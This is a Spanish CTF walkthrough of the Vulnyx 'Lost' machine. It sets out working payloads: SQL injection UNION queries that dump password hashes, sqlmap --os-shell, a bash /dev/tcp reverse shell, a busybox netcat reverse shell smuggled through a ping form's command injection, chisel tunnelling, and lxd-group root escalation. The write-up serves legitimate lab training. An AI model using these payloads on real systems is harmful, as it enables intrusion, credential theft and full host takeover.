

# Lost


Dificultad -> Hard

Enlace a la máquina -> [Vulnyx](https://vulnyx.com/#lost)

-----------
## WriteUp Lost

Lo primero que haremos, es identificar nuestra IP de atacantes. Esto podemos hacerlo rápidamente con el siguiente comando.

```bash
ip a s [Interfaz]
```

 

Lo siguiente que tendremos que hacer es identificar la IP de la máquina objetivo. Al estar en un laboratorio montado en local, podemos identificarla rápidamente con alguno de los siguientes comandos. Atendiendo al OUI, podemos identificarla rápidamente si la estamos virtualizando en Virtual Box o VMware. 

```bash
sudo nmap -sn [RangoIP/24]
```
```bash
sudo arp-scan -I [Interfaz] --localnet --ignoredups --ouifile=/usr/share/arp-scan/ieee-oui.txt --macfile=/etc/arp-scan/mac-vendor.txt
```
En este caso, al desplegar la máquina podremos ver que nos muestra la IP, pero no siempre será así, si no que tendremos que identificar nosotros el equipo o equipos a comprometer. 


Lo siguiente que haremos, será crear los directorios con los que trabajemos habitualmente para ir almacenando información importante o evidencias sobre la explotación del objetivo. 


Para averiguar si el equipo al que nos vamos a enfrentar es un Linux o un Windows, algo que podemos hacer es utilizar ping. El objetivo principal de este comando es para comprobar si hay conectividad entre dos equipos, pero también si nos fijamos en el valor del TTL, podemos identificar si el equipo es un Linux o un Windows. En este caso, el valor representado en TTL es de 64, lo que indica que presumiblemente estamos ante un Linux. El valor por defecto para un Windows sería de 128. 

```bash
ping -c 1 [IPObjetivo]
```


Empezamos la fase de enumeración, comprobando que puertos tiene abiertos la máquina objetivo. Para ello utilizamos nmap. 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPobjetivo] -oG [Archivo]
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado


Encontramos 2 puertos abiertos. El puerto 22 (SSH) y el puerto 80 (HTTP). Para profundizar en la versión de los servicios que corren en estos dos puertos, vamos a volver a tirar de nmap, con los siguientes parámetros. También vamos a utilizar el parámetro -sC, que lanza un conjunto de scripts de reconocimiento que nos pueden permitir enumerar cositas interesantes. 

```bash
sudo nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```


 Podemos ver que el equipo es un Debian. Tenemos las versiones de SSH y HTTP correspondientes. Algo cuanto menos curioso, que nos revela el script http-title, es lo que parece ser un nombre de dominio (lost.nyx). Por si acaso, vamos a añadirlo a nuestro /etc/hosts 

```bash
echo '[IPObjetivo] lost.nyx' | sudo tee -a /etc/hosts
```


Lo que vamos a hacer ahora es ver que hay en el servidor web que corre en el puerto 80 a ver qué encontramos. 

```
http://[IPObjetivo]:80
```

En principio no vemos nada, solo una página en negro. Si le pasamos Wappalyzer, tampoco vamos a ver muchas cosas interesantes. 


Si revisamos el código (CTRL + U), vamos a ver el siguiente comentario que nos invita a seguir enumerando dominios. Pues vamos a ello. 


Para esta tarea podemos utilizar gobuster o ffuf, con el que nos sintamos más cómodos, aunque es bueno dominar herramientas diferentes para hacer una misma tarea. 

```bash
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/namelist.txt -u http://lost.nyx --append-domain -o subdomain_gobuster.txt
```
Con el parámetro --append-domain, le estamos indicando a gobuster que nos agregue los subdominios encontrados, al dominio principal automáticamente. 

Si le hacemos un cat al archivo sobdomain_gobuster.txt, vamos a ver un montón de subdominios, pero muchos de los cuales nos muestran un código de estado 400 (Bad Request). Para sanitizar un poco la salida, vamos a ejecutar el siguiente comando 

```bash
grep -v "400" subdomain_gobuster.txt >> subdomain.txt
```
Ya con el archivo limpio de dominios con códigos de estado 400, si le hacemos un cat veremos que hay un subdominio que nos ha encontrado 


Para hacerlo con ffuf, ejecutamos el siguiente comando 

```bash
ffuf -fs 819  -w /usr/share/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.lost.nyx" -u http://[IPObjetivo]
```

El parámetro -fs 819 filtra las respuestas que tienen un tamaño de 819 bytes. Este filtro se utiliza para descartar respuestas que no son relevantes (por ejemplo, respuestas de error o redirecciones comunes). Tal y como vemos en la imagen, nos encuentra el subdominio dev al igual que hemos hecho con gobuster. 


Pues ahora lo que vamos a hacer, es añadirlo también al /etc/hosts. 

```bash
echo '[IPObjetivo] dev.lost.nyx' | sudo tee -a /etc/hosts
```


Si ahora en el navegador buscamos lo siguiente, deberíamos ver algo ya por fin 

```
http://dev.lost.nyx
```


Tras inspeccionar el sitio cuidadosamente, nos llama la atención lo siguiente en la sección "Passanger List" 


Por lo que nos chivan, se puede emplear el parámetro id para obtener detalles de los pasajeros. Vamos a probar poniendo id=1 a ver que nos muestra. 

```
http://dev.lost.nyx/passengers.php?id=1
```


Tal y como vemos, nos muestra información sobre el usuario Jack. Si vamos probando con diferentes números de id, veremos que nos va dando información de pasajeros hasta el número 5, en el que no nos muestra nada. 

Lo primero que se nos viene a la cabeza, es que seguramente se está empleando un base de datos por detrás de esto, así que vamos a probar alguna inyección SQL. 

```
http://dev.lost.nyx/passengers.php?id=1'
```


Tal y como vemos, se ha producido un error de sintaxis de MySQL, lo que puede ser indicativo de que la base de datos puede ser vulnerable a SQLi. 

Vamos a probar la inyección SQL por defecto, útil en casi todos los escenarios. Decimos en casi todos los escenarios, porque si no sabemos lo que hace la consulta por detrás, podemos arriesgarnos a borrar todo el contenido de la Base de datos. Al tratarse de un CTF vamos a probarla igualmente. 

```
http://dev.lost.nyx/passengers.php?id=1 or 1=1-- -
```


Tal y como vemos, estamos viendo todo el contenido de la tabla. Vemos que hay cuatro pasajeros, por eso al poner antes id=5 no nos mostraba nada, porque solo hay 4. De hecho, podemos comprobarlo con una SQLi igualmente. 

```
http://dev.lost.nyx/passengers.php?id=1 order by 5;
```


Tal y como vemos, se nos mostrará el error porque al tratar ordenar por la quinta columna, no puede hacerlo directamente porque no existe. Estamos por lo tanto ante un SQLi basada en error. Primero vamos a explotar esta SQLi de forma manual y luego tiraremos de SQLmap. 

Lo siguiente que vamos a hacer es ver si podemos unir de alguna forma los resultados de la consulta original, con una consulta que devuelva 4 columnas controladas por nosotros. Vamos a tratar de enumerar en primer lugar el nombre de la base de datos actual

```
http://dev.lost.nyx/passengers.php?id=1 union select "1","2",database(),"4";
```


Y ojo que conseguimos verla. En este caso se está empleando la base de datos "lost". Esto ya se pone interesante, porque nos va a permitir ir revelando información de la base de datos poquito a poco. 

De hecho, otra cosa que podemos tratar de hacer es ver todas las bases de datos existentes. Para ello, utilizamos la siguiente consulta 

```
http://dev.lost.nyx/passengers.php?id=1 union select "1","2",schema_name,"4" from information_schema.schemata-- -;
```


Tal y como vemos, ahí tenemos todas las bases de datos disponibles, entre las que se encuentra la base de datos "lost" que es la que se está empleando. Continuando enumerando esta base de datos, vamos a tratar de ver las tablas dentro de esta base de datos 

```
http://dev.lost.nyx/passengers.php?id=1 union select 1,2,table_name,4 from information_schema.tables where table_schema='lost'
```


Se nos revelan dos tablas dentro de la base de datos "lost". Por un lado tenemos la tabla "users" y por otro lado la tabla "passengers". Seguramente sea de esta tabla "passengers" de donde se nos mostraban los datos introducidos en el parámetro id. 

Lo que vamos a hacer, es centrar nuestra atención en la tabla "users" y tratar de enumerar las columnas existentes dentro de esta tabla. 

```
http://dev.lost.nyx/passengers.php?id=1 union select 1,2,column_name,4 from information_schema.columns where table_schema = "lost" and table_name="users";-- -
```


Tal y como vemos, la tabla "users", tiene las columnas id, username, salt y password. Ya nos vamos acercando bien. Conociendo la base de datos, la tabla y las columnas, podemos utilizar la siguiente consulta para ver toda la información de la tabla

```
http://dev.lost.nyx/passengers.php?id=1 union select id,username,salt,password from users;
```


Tenemos los usuarios y las contraseñas en formato hash. Como vemos el SALT es el mismo para todos los usuarios, lo que debilita significativamente la seguridad de almacenamiento de contraseñas. Aún así, es una tarea yo diría que imposible en este caso, ya que no hemos conseguido nada por este medio. 

Antes de continuar, comentamos un poco como funcionan los SALT. Cuando un usuario establece o cambia su contraseña, se genera un SALT (un valor aleatorio). La contraseña del usuario se combina con este SALT y luego se aplica un función hash (por ejemplo SHA-256). El resultado de esta operación es el hash de contraseña, que se almacena en la base de datos junto con el SALT. Luego, cuando un usuario trata de iniciar sesión, proporciona su nombre de usuario y su contraseña. La SALT almacenada en la base de datos para ese usuario se recupera. La contraseña proporcionada por el usuario se combina con esta SALT y se aplica la misma función hash. El resultado se compara con el hash de la contraseña almacenada en la misma base de datos. Si coinciden, la contraseña es correcta.


Como decíamos anteriormente, tras un rato probando ataques de fuerza bruta, no conseguimos nada. Investigando un poco más sobre el tema, descubrimos la existencia de las tablas arcoíris (tablas rainbow), que pueden ser de gran ayuda en estos casos, pero aún así tampoco conseguimos nada en nuestro caso. 

En este punto, lo que hemos hecho ha sido utilizar SQLmap para derivar esta SQLi en un RCE. Sabemos, porque lo hemos comprobado, que el parámetro id es vulnerable a SQLi, por lo que con SQLmap podemos tratar de obtener una Shell en el equipo objetivo. Para ello, utilizamos el siguiente comando 

``bash
sqlmap -u http://dev.lost.nyx/passengers.php?id=1 --os-shell
```

Para que esto funcione, deben darse una seria de requisitos en la base de datos y el servidor, entre ellos, como decíamos: ser vulnerable a SQLi, que MySQL permita  consultas apiladas, tener permisos para escribir archivos, que el servidor web tenga una ruta accesible para escribir archivos, etc. En nuestro caso solo sabemos que es vulnerable a SQLi, pero aún así probamos y tenemos éxito. 


Como vemos, el parámetro id es vulnerable y SQLmap está ofreciéndonos ganar una Shell en el equipo objetivo. Nos pregunta el tipo de lenguaje que soporta el servidor, que en este caso es PHP. SQLmap va a subir un archivo PHP en un directorio accesible públicamente, lo que presumiblemente hará que obtengamos una Shell. Lo que hacemos simplemente es pulsar 4 para indicarle PHP y nos dará una Shell en la que ahora ya sí, podemos ejecutar comandos en este caso como el usuario www-data. 


Para trabajar de forma más cómoda, vamos a crear una Reverse Shell en Bash, subirla al equipo objetivo, ejecutarla y estando en escucha con Netcat, ganar acceso al equipo pero desde una consola más cómoda para nosotros. 


```
touch reverse_shell.sh
```

Editamos el archivo reverse_shell.sh y metemos la siguiente instrucción 

```
/bin/bash -i >& /dev/tcp/[IPAtacante]/[Puerto] 0>&1
```


Ahora lo que tenemos que hacer es pasar el archivo reverse_shell.sh al equipo objetivo. Para ello nos montamos un servidor web con Python por el puerto 80

```bash
python3 -m http.server 80
```

Ahora en el equipo objetivo (en la consola de SQLmap), ejecutamos el siguiente comando para descargar el archivo reverse_shell.sh y darle permisos de ejecución

```bash
wget http://[IPAtacante]:80/reverse_shell.sh
chmod +x reverse_shell.sh
```

Si listamos el contenido del directorio actual en el equipo objetivo, deberíamos ver el archivo reverse_shell.sh


Como vemos, ya tenemos nuestra Reverse Shell en el equipo objetivo. De hecho vemos por ahí también los archivos PHP que ha subido SQLmap para darnos la Shell con la que ganamos acceso. Pues bueno, ahora tenemos que ponernos en escucha por netcat por el puerto 443 en nuestro caso, y ejecutar el script reverse_shell.sh para ganar acceso al equipo pero desde una bash que es más cómodo. 

```bash
nc -nlvp 443
```

```bash
bash reverse_shell.sh
```

Ya con esto hecho, podemos cerrar la consola de SQLmap. 


Lo primero que vamos a hacer es un pequeño tratamiento de la TTY para ello, ejecutamos los siguientes comandos

Para poder hacer CTRL + C y que no se nos cierre la consola, seguimos estos pasos:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
```

Para poder limpiar la consola con CTRL + L. Vemos que la variable de entorno TERM vale dump, y lo suyo es que valga xterm 

```bash
echo $TERM
export TERM=xterm
```

Si queremos arreglar las proporciones, primero consultamos en nuestro equipo cuales son y exportamos esas cifras a la máquina objetivo. 21 filas y 128 columnas en nuestro caso

```bash
stty size
stty rows 21 columns 128
```

Ya desde una consola más operativa, podemos continuar


Recordemos que estamos como el usuario www-data, por lo que lo primero que vamos a hacer es ver que usuarios hay en el sistema echándole un vistazo al /etc/passwd

```bash
cat /etc/passwd | grep "sh$"
```


En principio encontramos 3 usuarios. El usuario root, el usuario jackshephard y el usuario johnlocke

Podemos probar diferentes técnicas de escalada de privilegios, pero como siempre, nos centraremos en la que funciona en nuestro caso. En este caso, la máquina tiene algunos puertos abiertos funcionando internamente. Lo que tendremos que hacer es aplicar Port Forwarding, para 'sacar' estos puertos fuera y poder verlos desde nuestra máquina de atacantes. Hay varias formas de ver que puertos hay abiertos en un equipo, en nuestro caso, tiraremos de la herramienta ss 

```bash
ss -tuln
```


Vemos que el puerto 3000 esta abierto internamente en el objetivo. Lo que vamos a hacer, es aplicar Port Forwarding, una técnica para redirigir el tráfico de red de un puerto a otro, permitiendo el acceso a servicios que están detrás de un firewall o en una red interna, como es en este caso. 

Lo primero que vamos a hacer, es comprobar si la máquina objetivo tiene instalado socat. Si es así, podemos aprovecharnos de esto para la tarea. 

```bash
socat -h
```

Lo tiene instalado, por lo que procedemos a aplicar Port Forwarding. 

```bash
socat TCP-LISTEN:[PuertoDestino],fork TCP:[LocalHost]:[PuertoObjetivo]
```
Lo que vamos a hacer, es redirigir el tráfico del puerto 3000 que corre en el localhost, al puerto 8080 de la propia máquina objetivo 


Con esto hecho, si por ejemplo ahora realizamos un escaneo de puertos con nmap de nuevo contra el objetivo, deberíamos ver abierto el puerto 8080 que antes no estaba abierto. 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPObjetivo] -oG [Archivo]
```


Tal y como vemos, es un http-proxy, que vamos a proceder a inspeccionar desde nuestro navegador

```
http://[IPObjetivo]:8080]
```


Vemos un pequeño panel en el que nos dice que pongamos una IP a la que queramos hacerle un ping supongo. Antes de continuar, vamos a ver cómo podemos hacer lo mismo que hemos hecho con socat, pero esta vez tirando de chisel. 

Lo primero que tenemos que hacer es descargar chisel en nuestro equipo, para ello visitamos la siguiente cuenta de GitHub. 

```
https://github.com/jpillora/chisel
```

En el apartado Releases, descargamos la versión para Linux (chisel_1.10.1_linux_amd64.gz). Una vez descargado, nos lo vamos a mover a nuestro directorio exploits, y vamos a descomprimir este archivo .gz. También vamos a darle permisos de ejecución 

```bash
7z x [Archivo.gz]
chmod +x [Archivo]
```

Como vemos en la imagen, ahí tenemos nuestro chisel. 


Ahora vamos a tener que pasar este archivo, a la máquina objetivo. Para ello, en el mismo directorio exploits, donde se encuentra el archivo, montamos un servidor web con Python 

```bash
python3 -m http.server 80
```

Ahora en la máquina víctima, vamos a descargar el archivo. Para ello, vamos a ir al directorio /tmp, ya que bajo este directorio normalmente contaremos con permisos de escritura, y vamos a ejecutar el siguiente comando 

```bash
wget http://[IPAtacante]/chisel
```

Como vemos en la imagen, ahora tenemos chisel en la máquina objetivo. También le vamos a dar permisos de ejecución con el siguiente comando 

```bash
chmod +x [archivo]
```


Ya con chisel en ambos equipos, lo que vamos a hacer es correr chisel en la máquina de atacantes como servidor y en la máquina objetivo como cliente 

```bash
./chisel server --reverse -p [PuertoEscuchaChisel]
```

```bash
./chisel client [IPAtacante]:[PuertoEscuchaChisel] R:[PuertoAtacante]:[LocalHostVictima]:[PuertoVictima]
`` 
Si vamos a la terminal donde tenemos corriendo chisel como servidor, veremos que se ha establecido una nueva conexión y ahora lo que hay corriendo en el puerto 3000 del localhost de la máquina objetivo, va a correr en el puerto 80 del localhost de la máquina de atacantes


Por lo tanto, si vamos al navegador, y desde nuestro localhost le indicamos el puerto 80 (en nuestro caso), veremos lo siguiente 


```
http://localhost:80
```


Ahora ya si, volvemos a la resolución del laboratorio. Cómo decíamos, nos pide una IP para hacerle un ping. Pues bueno, vamos a poner una IP a ver qué pasa. Si por ejemplo ponemos la IP de la máquina objetivo, veremos que efectivamente responde 


Vemos que funciona. Para burlar este sistema, podemos probar por ejemplo si es vulnerable a una Inyección de comandos. Es decir, si el programa lo que hace es recoger el input y concatenarlo al comando ping, muy posiblemente sea vulnerable como decíamos a Command Injection. Vamos a probarlo. Si por ejemplo, le introducimos la misma IP y le concatenamos un id, vamos a ver que pasa.

```bash
192.168.0.28;id
```


Parece que no le gusta mucho este comando. Pero bueno no pasa nada. Podemos seguir probando. Hay algunas formas rápidas de burlar este panel con una Inyección de Comandos. Podemos visitar por ejemplo el repositorio en GitHub para tener más información 

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md
```

```
https://github.com/payloadbox/command-injection-payload-list
```

Una de las primeras cosas que podemos probar, es utilizar un pipe ( | ). 

```
|whoami
```


Ojo que parece que le hemos colado un comando, en este caso whoami y se ha ejecutado. Nos ha respondido como el usuario "jackshephard" que si recordamos, era uno de los usuarios presentes en el sistema objetivo. Si probamos con un pipe  a colarle el comando pwd para ver la ruta en la que estamos veremos lo siguiente 

```
|pwd
```


Estamos en la ruta /opt/pinged. Lo que vamos a hacer es tratar de listar el contenido de este directorio a ver qué encontramos. Para escapar los espacios utilizamos lo siguiente ${IFS}

```
|ls${IFS}-la
```


Vemos un script en PHP llamado pinged.php, que quiero pensar es lo que está activando esta funcionalidad web, por lo que estaría interesante poder revisar este archivo. 

```
|cat${IFS}pinged.php
```


Vemos varias cosas interesantes, entre ellas dos listas negras de comandos a utilizar y de símbolos o caracteres. Esto último es importante ya que, de cara a ejecutar una Reverse Shell que nos de acceso al equipo como el usuario "jackshephard" y de esta forma elevar privilegios, no vamos a poder utilizar ciertos símbolos o caracteres que están contemplados en esta lista negra. Otra cosa importante que vemos en la lista negra de comandos es busybox. Busybox es una herramienta que contiene muchas utilidades de Linux en un solo binario y se emplea para sistemas Linux pequeños como routers, Android, dispositivos IoT, etc. Esto es interesante. Lo que vamos a hacer para solventar esto, es visitar la siguiente web 

```
https://www.revshells.com/
```

Investigando un poco el sitio, damos con una Reverse Shell empleando busybox que no contempla ninguno de los símbolos o caracteres incluidos en la lista negra, y por lo tanto, con muchas posibilidades de ser ejecutada correctamente y darnos acceso al equipo 


Antes de ejecutar esta Reverse Shell, tenemos que modificarla un poco igual que hicimos antes, tirando del pipe ( | ) y reemplazando los espacios por ${IFS}. 

```
|busybox${IFS}nc${IFS}[IPAtacante]${IFS}[Puerto]${IFS}-e${IFS}bash
```

Antes de ejecutar el comando en el sitio web, nos ponemos en escucha por netcat por el puerto especificado

```bash
nc -nlvp [Puerto]
```

Ya estando en escucha por netcat, si ahora ejecutamos el comando de la Reverse Shell, y hacemos un tratamiento de la TTY como hicimos antes (esto es opcional), veremos que estamos como el usuario "jackshephard" de forma que hemos conseguido elevar nuestros privilegios. 
 


Al ejecutar el comando id vemos además algo muy interesante. Este usuario pertenece al grupo lxd. 
lxd se utiliza para crear máquinas virtuales ligeras llamadas contenedores. El grupo lxd permite que un usuario utilice lxd sin necesidad de ser root, de forma que puede crear y controlar contenedores sin necesitar permisos de root. Por otra parte, sabemos que los contenedores pueden manipularse para obtener acceso completo al sistema. ¿Cómo? Pues vamos a verlo a continuación

Para escalar el privilegio de root de la máquina host, debemos crear una nueva imagen para lxd, por lo que debemos realizar las siguientes acciones:

- En nuestra máquina de atacante, vamos a descargar build-alpine a través del repositorio de git.
- Ejecutamos el script build-alpine que creará la última imagen de Alpine como un archivo comprimido; este paso debe ser ejecutado por el usuario root
- Transferimos el archivo a la máquina host
- Importamos la imagen lxd
- Iniciamos la imagen dentro de un nuevo contenedor
- Montamos el contendor dentro del directorio /root


En nuestra máquina de atacante, descargamos la compilación alpina usando el repositorio de Github

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

```bash
cd lxd-alpine-builder
```


```bash
sudo ./build-alpine
```

Una vez completada la compilación, se creará un archivo .tar.gz


Ahora vamos a pasar este archivo .tar.gz a la máquina objetivo. Vamos a montarnos un servidor HTTP con python como hemos hecho varias veces

```bash
python3 -m http.server [Puerto]
```

En la máquina de destino ahora vamos a descargarnos el archivo para ello utilizamos el siguiente comando. Antes de hacerlo, nos metemos en el directorio /tmp 

```bash
wget [IPatacante]:[Puerto]/ruta/archivo.tar.gz
```


Una vez creada la imagen, la podemos agregar como imagen a LXD de la siguiente manera dándole un alias para usarla de forma más sencilla

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias [alias]
```

Para verificar la lista de imágenes podemos utilizar el siguiente comando:

```bash
lxc image list
```


Como vemos, tenemos la imagen pwned que es la que hemos creado nosotros. 

Ahora tendremos que ir ejecutando los siguientes comandos

Con este primer comando, estamos creando un contenedor con privilegios

```bash
lxc init [alias] ignite -c security.privileged=true
```

Ahora, estamos montando el disco duro de la máquina objetivo dentro del contenedor en /mnt/root

```bash
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

Por último, iniciamos y accedemos al contenedor

```bash
lxc start ignite
```

```bash
lxc exec ignite /bin/sh
```

No podemos ponernos una bash, pero bueno tenemos una sh 

Si ahora por ejemplo ejecutamos el comando id, veremos que somos root, pero aún no tendremos que hacer una cosita mas, ya que hasta ahora somos root pero solo dentro del contenedor, pero desde aquí no tenemos acceso a los archivos del equipo objetivo

```bash
id
```


Ahora simplemente lo que tenemos que hacer es irnos a la ruta /mnt/root para ver todos los recursos de la máquina objetivo, que es donde se ha montado el sistema de la máquina objetivo 

```bash
cd /mnt/root
```
Ya simplemente nos queda buscar las Flags de usuario y de root y hacerles un cat

```bash
find / -type f -name user.txt 2>/dev/null
cat /mnt/root/home/jackshephard/user.txt
```


```bash
find / -type f -name root.txt 2>/dev/null
cat /mnt/root/root/root.txt
```


